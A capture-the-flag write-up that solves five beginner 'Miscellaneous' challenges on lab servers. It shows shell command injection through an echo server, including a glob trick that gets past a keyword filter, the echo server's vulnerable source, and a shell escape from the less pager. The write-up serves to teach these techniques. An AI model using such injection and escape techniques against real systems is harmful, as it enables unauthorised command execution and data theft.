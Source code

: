 # Miscellaneous challenges

## Catalias
```
60 points
Hmmm… maybe missing a hyphen somewhere?

Note: This challenge is reset every five minutes. If you are on the wrong side of the clock, you may need to reconnect.

Connect with:
ssh user@jh2i.com -p 50004 # password is 'userpass'
```

### Solution
Connect to the server and execure `ls` command
```
> ssh user@jh2i.com -p 50004 -q ls
flag.txt
```
Nice, now we should read the flag!
```
> ssh user@jh2i.com -p 50004 -q cat flag.txt
user@jh2i.com's password: 
LLS{you_let_the_cat_out_of_the_bag}
```

## Hidden
```
60 points
What secret is this server hiding?!

Connect with:
ssh user@jh2i.com -p 50015 # password is 'userpass'
```

### Solution

Let's start with the server directories listing
```
> ssh user@jh2i.com -p 50015 -q ls -la
user@jh2i.com's password: 
total 24
dr-xr-xr-x 1 user user 4096 Oct 28 19:13 .
drwxr-xr-x 1 root root 4096 Oct 28 19:13 ..
-rw-r--r-- 1 user user  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 user user 3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 user user  807 Apr  4  2018 .profile
drwxr-xr-x 1 root root 4096 Mar 30 00:12 .secret
```
We should definitely inspect `.secret` directory, it might hold smth interesting!
```
> ssh user@jh2i.com -p 50015
user@jh2i.com's password: 
Last login: Sat Apr  4 13:04:12 2020 from 167.172.141.127
> user@3b02bd78ea5e:~$ cd .secret/
-rbash: cd: restricted
> user@3b02bd78ea5e:~$ ls -la .secret/
total 12
drwxr-xr-x 1 root root 4096 Mar 30 00:12 .
dr-xr-xr-x 1 user user 4096 Oct 28 19:13 ..
-rw-r--r-- 1 root root   33 Mar 30 00:12 ._dont_delete_me.txt
> user@3b02bd78ea5e:~$ cat .secret/._dont_delete_me.txt 
LLS{you_found_my_hidden_secrets}
```
We got it!

## Chasm
```
60 points
The Internet’s new echo server. Break it.

Connect with:
nc jh2i.com 50006
```

### Solution
Connect to the server to see we can do with it
```
nc jh2i.com 50006
'Chasm' echo server 1.0
```
Let's use echo to get the flag 
```
> echo $(ls)        
ECHO: echo flag.txt server.py
> echo $(cat flag.txt)
HACKER! YOU ARE A HACKER! GET OUT OF THE CHASM!
> 
echo $(cat server.py)
ECHO: echo #!/usr/bin/env python # -*- coding: utf-8 -*- # @Author: john # @Date: 2017-01-16 10:17:31 # @Last Modified by: john # @Last Modified time: 2017-02-10 22:17:34 import sys import textwrap import SocketServer import string import readline import threading from time import flag.txt server.py from subprocess import check_output debug = True if debug: def success(string): print("[+] " + string) def error(string): sys.stderr.write("[-] " + string + "
") def warning(string): print("[!] " + string + "
") def info(string): print("[.] " + string + "
") class Service(SocketServer.BaseRequestHandler): def handle(self): self.send("'Chasm' echo server 1.0") while 1: try: got = self.receive() if "flag" in got: self.send("HACKER! YOU ARE A HACKER! GET OUT OF THE CHASM!") continue response = check_output("echo " + got, shell=True) self.send("ECHO: " + response) except: self.send("ERROR! That echo floated away the chasm for eternity...") def send(self, string, newline=True): if newline: string = string + "
" self.request.sendall(string) def receive(self, prompt="> "): self.send(prompt, newline=False) return self.request.recv(4096).strip() class ThreadedService( SocketServer.ThreadingMixIn, SocketServer.TCPServer, SocketServer.DatagramRequestHandler, ): pass def main(): info("Starting server...") port = 7312 host = "0.0.0.0" service = Service server = ThreadedService((host, port), service) server.allow_reuse_address = True server_thread = threading.Thread(target=server.serve_forever) server_thread.daemon = True server_thread.start() success("Server started on " + str(server.server_address) + "!") # Now let the main thread just wait... while True: sleep(10) if __name__ == "__main__": main()

As you can see from the file, we will receive self.send("HACKER! YOU ARE A HACKER! GET OUT OF THE CHASM!") if there is a word "flag" in our command. Let's bypass it:
```
We cannot open the `flag.txt` using `echo $(cat flag.txt)` because the server throws an `HACKER! YOU ARE A HACKER! GET OUT OF THE CHASM!` exception.
What if we slightly modify our command???
```
> echo $(cat fl*)
ECHO: echo LLS{dangerous_echos_in_this_chasm}
```

# Linux Kiosk
```
70 points
This public computer kiosk is weird! It just offers the man page for less?

Connect here:
ssh user@jh2i.com -p 50021 # password is 'userpass'
```

### Solution
Let's connect to the server using `ssh`
```
ssh user@jh2i.com -p 50021
user@jh2i.com's password: 
LESS(1)                                    General Commands Manual                                   LESS(1)

NAME
       less - opposite of more

SYNOPSIS
       less -?
       less --help
       less -V
       less --version
       less [-[+]aABcCdeEfFgGiIJKLmMnNqQrRsSuUVwWX~]
            [-b space] [-h lines] [-j line] [-k keyfile]
            [-{oO} logfile] [-p pattern] [-P prompt] [-t tag]
            [-T tagsfile] [-x tab,...] [-y lines] [-[z] lines]
            [-# shift] [+[+]cmd] [--] [filename]...
       (See the OPTIONS section for alternate option syntax with long option names.)

DESCRIPTION
       Less is a program similar to more (1), but it has many more features.  Less does not have to read the
       entire input file before starting, so with large input files it starts up faster  than  text  editors
       like  vi  (1).  Less uses termcap (or terminfo on some systems), so it can run on a variety of termi‐
       nals.  There is even limited support for hardcopy terminals.  (On a hardcopy  terminal,  lines  which
       should be printed at the top of the screen are prefixed with a caret.)

       Commands  are  based  on both more and vi.  Commands may be preceded by a decimal number, called N in
       the descriptions below.  The number is used by some commands, as indicated.

```
After login, the server displays a manual for the `less` command. If we press `q`, connection to the server will be closed 
Login once again and type `!echo 123`
```
> !echo 123
Last login: Sat Apr  4 17:46:35 2020 from 167.172.141.127
man: can't set the locale; make sure $LC_* and $LANG are correct
123
!done  (press RETURN)
```
Voilla!! We can execute commands!!! Let's try !cat flag.txt
```
> ssh user@jh2i.com -p 50021
Last login: Sat Apr  4 17:46:35 2020 from 167.172.141.127
man: can't set the locale; make sure $LC_* and $LANG are correct
123
!done  (press RETURN)
LLS{less_is_more}
!done  (press RETURN)
```

Here we are!!!

## MissingCho
```
80 points
I keep trying to run this program, but I get "Permission Denied." What gives!??

Connect with:
ssh user@jh2i.com -p 50025 # password is 'userpass'
```
### Solution
Connect to the server using `ssh`
```
> ssh -v user@jh2i.com -p 50025
Last login: Sat Apr  4 17:55:19 2020 from 167.172.141.127
user@68cc7c8f1469:~$ ls 
give_flag
user@68cc7c8f1469:~$ cat give_flag 
-bash: cat: command not found
user@68cc7c8f1469:~$ ls -la give_flag 
-r--r--r-- 1 root root 8232 Mar 30 00:12 give_flag
user@68cc7c8f1469:~$ chmod +x give_flag 
-bash: chmod: command not found
user@68cc7c8f1469:~$ tail give_flag
...
LLS{who_even_needs_chmod}
...
```
Awesome!

